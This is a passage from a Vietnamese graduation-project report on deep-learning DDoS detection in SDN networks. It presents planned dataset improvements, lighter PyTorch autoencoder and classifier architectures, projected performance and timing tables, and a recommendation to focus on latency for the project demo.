- Mục tiêu: L7_Protocol > 0.8 (+1900%), Duration > 30s (+55%)

**Kỳ vọng cải thiện:**
```
V7 → V8 Improvements:
├── Normal: Duration 0.04s → >0.5s (+1150%) ✅
├── Slowloris: L7 0.04 → >0.8 (+1900%) ✅
├── Slowloris: Duration 19s → >30s (+55%) ✅
└── Expected AI: Normal accuracy 85% → 92% (+7%)
```

---

### 13.3 Ưu Tiên 3: Nâng Cấp Mô Hình AI (V5)

#### Kiến trúc Fast-Guard (Lightning-Fast Inference)

```python
class FastGuard_AE(nn.Module):
    """Autoencoder nhẹ hơn 50%"""
    def __init__(self, input_dim=26):
        super().__init__()
        # V4: 26 → 256 → 128 → 64
        # V5: 26 → 128 → 64 → 16 (Giảm 50% params)
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 128),  # Giảm từ 256
            nn.ReLU(),
            nn.Dropout(0.3),
            nn.Linear(128, 64),
            nn.ReLU(),
            nn.Linear(64, 16),  # Giảm từ 32
        )
        # Knowledge Distillation từ V4
        # Train Student (V5) từ Teacher (V4)

class FastGuard_Classifier(nn.Module):
    """Classifier nhẹ hơn 60%, bỏ Attention"""
    def __init__(self, input_dim=26, num_classes=5):
        super().__init__()
        self.cnn = nn.Sequential(
            nn.Conv1d(input_dim, 64, 3, padding=1),  # Giảm từ 128
            nn.BatchNorm1d(64),
            nn.ReLU(),
            nn.MaxPool1d(2),
            nn.Conv1d(64, 64, 3, padding=1),
            nn.BatchNorm1d(64),
            nn.ReLU(),
        )
        self.gru = nn.GRU(64, 32, batch_first=True)  # Giảm từ 64
        # Bỏ Attention để giảm latency
        self.classifier = nn.Sequential(
            nn.Linear(32 * 5, 128),  # Giảm từ 256
            nn.ReLU(),
            nn.Dropout(0.4),
            nn.Linear(128, num_classes)
        )
```

**Expected Performance:**
| Metric | V4 | V5 | Improvement |
|--------|-----|-----|-------------|
| Inference Time | 80ms | 15ms | 5.3x faster |
| Model Size | 45MB | 18MB | 2.5x smaller |
| Accuracy | 91% | 89% | -2% (acceptable) |
| Latency (end-to-end) | 150ms | 37ms | 4x faster |

---

### 13.4 Timeline & Quyết Định

**⏰ Dự kiến thời gian:**
| Nhiệm vụ | Thời gian | Priority |
|----------|-----------|----------|
| Latency Optimization (ONNX + async) | 1 ngày | ⭐⭐⭐⭐⭐ |
| V8 Data Collection | 2.5 giờ | ⭐⭐⭐ |
| V5 Model Training (distillation) | 4-6 giờ (GPU) | ⭐⭐ |
| Integration & Testing | 2 giờ | ⭐⭐⭐⭐ |

**💡 Khuyến nghị:**

**Option A: Tập trung vào Latency (Khuyến nghị cho demo)**
- Skip V8 dataset (V7 đã đủ tốt 95% accuracy)
- Tập trung ONNX conversion và async processing
- Expected: Latency giảm từ 150ms → 37ms (4x faster)
- Thời gian: **1 ngày**

**Option B: Full V8 + V5**
- Thu thập V8 dataset + Train V5
- Expected: 97% accuracy + 37ms latency
- Thời gian: **3-4 ngày**

> **Khuyến nghị của tôi: Chọn Option A** vì:
> 1. V7 đã đạt 95% accuracy - đủ tốt cho đồ án
> 2. Latency improvement (4x) ấn tượng hơn trong demo
> 3. Hội đồng sẽ ấn tượng với "real-time" <50ms
> 4. Tiết kiệm thời gian cho hoàn thiện documentation

---

<div align="center">

**📝 Ngày viết báo cáo:** 25/4/2026  
**👤 Tác giả:** Nguyễn Đức Huy  
**🎓 Đồ án tốt nghiệp:** Hệ thống phát hiện tấn công DDos bằng deep trên mạng SDN

> *"Đây là kết quả của hành trình 'đập đi xây lại' từ V1 thất bại đến V4 production-ready. Mỗi phiên bản là một bài học về sự cân bằng giữa lý thuyết toán học (Entropy, Contrastive Learning, Differential Features) và thực tiễn hệ thống (RAM management, real-time constraints, user experience)."*

</div>
